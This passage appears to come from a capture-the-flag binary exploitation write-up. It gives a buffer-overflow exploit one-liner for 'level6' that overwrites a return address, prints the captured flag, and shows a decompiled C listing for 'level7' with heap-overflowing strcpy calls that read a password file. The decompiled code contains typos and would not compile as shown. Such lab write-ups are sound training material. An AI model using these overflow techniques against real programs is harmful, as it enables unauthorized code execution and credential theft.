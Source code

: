 3. Execute the Exploit:

	```bash
	./level6 `python -c 'print("A" * 72 + "\x54\x84\x04\x08")'`
	```

## LEVEL6 - FLAG

f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d

## LEVEL7 - BINARY ANALYSIS

```c
int main() {
	char *buff1;
	char *buff2;
	char *buff3;
	FILE *stream;

	buff1 = (char*)malloc(8);
	*buff1 = 1;

	buff2 = (char*)malloc(8);
	buff1[1] = buff2;

	buff3 = (char*)malloc(8);
	*buff3 = 2;

	buff2 = malloc(8);
	buff3[1] = buff2;

	strcpy((char *)buff1[1], argv[1]);
	strcpy((char *)buff3[1], argv[2]);
	stream = fopen("/home/user/level8/.pass");
	fgets(c, 0x44, strean);
	puts("~~");
	return 0;
}

void m() {
	time_t current_time;

	current_time = time(0);
	printf("%s - %d\n", c, current_time);
	return;
}
```

## LEVEL7 - EXPLANATION & SOLUTION

The binary has a vulnerability due to improper memory management and a lack of bounds checking, allowing us to overwrite memory.
